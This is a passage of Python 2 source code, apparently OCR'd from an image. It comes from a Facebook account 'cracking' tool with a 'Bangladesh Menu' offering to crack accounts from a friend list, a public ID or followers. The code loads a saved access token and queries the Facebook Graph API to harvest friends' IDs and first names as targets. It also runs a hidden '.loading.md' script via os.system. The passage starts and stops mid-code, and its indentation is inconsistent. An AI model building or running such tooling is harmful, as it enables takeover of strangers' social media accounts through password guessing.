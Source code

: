         indiaa()
    if option =="0":	
          menu()
    else:
          print ("[!] Please Select a Valid Option")
          bangla_india_man()		
	
def bangla():
	global token
	os.system("clear")
	try:
		token=open(".login.txt","r").read()
	except IOError:
		print("[!] Error 404 . Token Not Found")
		os.system("rm -rf .login.txt")
		time.sleep(1)
		login()
	os.system("clear")
	print logo
	os.system("python3 .loading.md")
        os.system('clear')
        print logo
	print("\t   Bangladesh Menu")
	print("\033[1;97m--------------------------------------------------")
	print ("\033[1;97m[1]\033[1;91m-⋄-\033[1;93mCrack From Friend List")
	print ("\033[1;97m[2]\033[1;91m-⋄-\033[1;93mCrack From Public ID")
	print ("\033[1;97m[3]\033[1;91m-⋄-\033[1;93mCrack From Followers")
	print ('\033[1;97m[0]\033[1;91m-⋄-\033[1;93mBack')
	print("\033[1;97m--------------------------------------------------")
	bangla2()
def bangla2():
	select = raw_input("\n╰─➣ ")
	id=[]
	oks=[]
	cps=[]
	if select=="1":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Frienlist\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for s in z["data"]:
			uid=s['id']
			na=s['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="2":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Public ID\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Have Privacy On Friendlist OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()